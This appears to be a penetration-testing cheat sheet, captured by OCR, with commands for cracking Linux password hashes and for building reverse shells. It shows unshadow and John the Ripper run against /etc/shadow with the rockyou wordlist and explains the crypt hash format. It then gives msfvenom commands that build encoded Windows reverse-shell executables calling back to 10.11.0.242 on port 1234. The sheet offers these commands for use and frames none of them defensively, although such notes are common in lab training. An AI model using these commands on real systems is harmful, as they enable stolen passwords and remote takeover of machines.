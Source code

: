 



Crack shadow file
        unshadow /etc/passwd /etc/shadow > pass
john --wordlist=/usr/share/wordlists/rockyou.txt pass


get a list of all subformats






When you look at the hash in your passwd file it has the following scheme:
$*1$*2$*3


*1 is an integer showing the hash type used (1=md5, according to one of the replies 6=SHA)
*2 is the salt
*3 is the hashed password (with the used salt)




-format=Raw-MD5








79)msfvenom
** list available payloads
root@kali:~# msfvenom -l payloads
windows/x64/shell/reverse_tcp


** List available formats
msfvenom  --help-formats


Executable formats
        asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, hta-psh, jar, jsp, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-cmd, psh-net, psh-reflection, vba, vba-exe, vba-psh, vbs, war
Transform formats
        bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript






Generate a binary reverse_shell payload for a 32 bit machine
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=10.11.0.242 LPORT=1234 -b "\x00" -e x86/shikata_ga_nai -f exe -o /ftphome/1.exe




Generate a binary reverse_shell payload for a 64 bit machine


msfvenom -a x64 --platform windows -p windows/x64/shell/reverse_tcp LHOST=10.11.0.242 LPORT=1234 -b "\x00" -e x64/shikata_ga_nai -f exe -o /ftphome/1.exe
